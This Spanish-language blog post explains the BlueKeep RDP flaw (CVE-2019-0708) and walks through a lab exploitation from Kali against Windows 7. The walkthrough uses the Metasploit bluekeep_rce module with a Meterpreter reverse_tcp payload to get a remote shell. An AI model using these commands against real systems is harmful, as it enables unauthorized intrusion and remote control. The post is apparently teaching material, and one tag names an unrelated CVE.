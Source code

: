 ```yaml
---
layout: single
title: Explotación de CVE-2019-0708 - Vulnerabilidades
excerpt: "la vulnerabilidad del servicio de escritorio remoto de Windows BlueKeep permite a los usuarios no autenticados realizar la ejecución remota de código."
date: 2023-08-25
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2019-0708/cve-2019-0708.png
  teaser_home_page: true
  icon: /assets/images/rdp.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2022-46169
  - BlueKeep
  - RDP
  - Metasploit
  
---
```


![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-0708.png)

## Descripción

Esta vulnerabilidad de ejecución remota de código afecta al Servicios de Escritorio Remoto (RDP), anteriormente conocidos como Terminal Server. Esta vulnerabilidad es de pre-autenticación y no requiere la interacción del usuario. En otras palabras, esta vulnerabilidad actúa como un Gusano, lo que significa que cualquier malware que explote el fallo podría propagarse rápidamente a otras máquinas vulnerables. Este caso es similar al malware WannaCry que se extendió por todo el mundo en el año 2017.

•	CVE: CVE-2019-0708

•	Factor de Riesgo: Alto

•	Valor CVSS Base: 9.8


## ¿Qué es BlueKeep?

BlueKeep es una vulnerabilidad de software que afecta a versiones antiguas de Microsoft Windows. El riesgo es significativo porque ataca el Protocolo de escritorio remoto (RDP) del sistema operativo, que permite conectar con otro ordenador a través de una conexión de red. De este modo, una ciberamenaza podría extenderse a gran velocidad. Se detectó por primera vez en mayo, en el Centro Nacional de Ciberseguridad del Reino Unido. Desde mediados de mayo de 2019.

## Productos Afectados:

•	Microsoft Windows 7 for 32-bit Systems SP1 

•	Microsoft Windows 7 for x64-based Systems SP1 

•	Microsoft Windows Server 2003

•	Microsoft Windows Server 2008 R2 for Itanium-based Systems SP1 

•	Microsoft Windows Server 2008 R2 for x64-based Systems SP1 

•	Microsoft Windows Server 2008 for 32-bit Systems SP2

•	Microsoft Windows Server 2008 for Itanium-based Systems SP2 

•	Microsoft Windows Server 2008 for x64-based Systems SP2 

•	Microsoft Windows XP

## Explotación:

Para esta demostración atacaremos desde un sistema operativo Kali Linux y como equipo víctima utilizaremos un sistema Windows 7.

•	Ejecutamos en la terminal msfconsole para ejecutar Metasploit

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07081.png)

•	use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07082.png)

•	set PAYLOAD windows/x64/meterpreter/reverse_tcp

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07083.png)

•	set RHOSTS <dirección IP de la víctima> (x64 Windows 7 o 2008 R2)

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07084.png)

•	set TARGET a un objetivo más específico basado en su entorno

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07085.png)

Comprobemos que tenemos Shell.

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07086.png)

## Referencias:

•	https://github.com/rapid7/metasploit-framework/pull/12283#issue-315012107 

•	https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708 

•	https://krebsonsecurity.com/tag/cve-2019-0708/

•	https://support.microsoft.com/es-co/help/4500705/customer-guidance-for-cve-2019-0708

